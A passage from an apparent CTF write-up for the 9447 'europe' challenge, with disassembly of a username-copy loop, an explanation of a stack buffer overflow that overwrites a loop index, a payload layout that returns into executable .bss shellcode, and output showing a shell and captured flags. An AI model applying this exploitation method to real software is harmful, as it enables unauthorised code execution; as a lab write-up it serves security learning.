     08048fe8 8B45F4                 mov        eax, dword [ss:ebp+curr_index]
    08048feb 05A0C90408             add        eax, 0x804c9a0              ; username_buf
    08048ff0 0FB600                 movzx      eax, byte [ds:eax]
    08048ff3 0FBEC0                 movsx      eax, al
    08048ff6 890424                 mov        dword [ss:esp], eax
    08048ff9 E8C2FCFFFF             call       xor_20
    08048ffe 8D8D14FAFFFF           lea        ecx, dword [ss:ebp+local_buf]
    08049004 8B55F4                 mov        edx, dword [ss:ebp+curr_index]
    08049007 01CA                   add        edx, ecx
    08049009 8802                   mov        byte [ds:edx], al
    0804900b 8345F401               add        dword [ss:ebp+curr_index], 0x1

    0804900f 8B45F4                 mov        eax, dword [ss:ebp+curr_index]
    08049012 05A0C90408             add        eax, 0x804c9a0              ; username_buf
    08049017 0FB600                 movzx      eax, byte [ds:eax]
    0804901a 84C0                   test       al, al
    0804901c 75CA                   jne        0x8048fe8

Here curr_index is the index into the source and destination buffers and is located at [ebp-0xc]. The destination buffer however starts at [ebp-0x5ec], so we will eventually overwrite the current index value. Now, if we overwrite it with some value smaller than it's current value the loop will go back to a previous index effectively causing an infinite loop.\\
By the time we hit the first byte of curr_index, it's value will be 0x5e1, so the easiest way around this is to just write 0x5e1 at that point. Note that we can write zero bytes here since the bytes will be xored with 0x20 first :)

Putting it all together the exploit will do the following:

1. Start a login as guest:guest
2. Start a second login with *payload*:whatever
3. Trigger the overflow by letting the main thread print us the message
4. Cause the main function to return by quitting the program

*payload* will contain the shellcode to execute, then some padding up to 0x5e0 bytes followed by the value (0x5e1 xor 0x20202020), some more padding up to the return address and finally the encoded return address. The exploit will just return to the username_buf in the .bss (which is executable as we've seen at the beginning).

Here's the output of running the exploit against the ctf server:

    > ./exploit_europe.py
    ...........................Pwned!
    whoami
    ctf
    pwd
    /home/ctf
    cat flag01
    9447{Th1s_wa5nT_loCk3d_d0wn_En0ugH}
    cat flag02
    9447{Th3_gRe4t_1eAK_0f_eUr0p3}
    cat flag03
    9447{c0n6rat5_oN_Conquer1ng_Europ3}

And here is the full exploit code. Enjoy :)
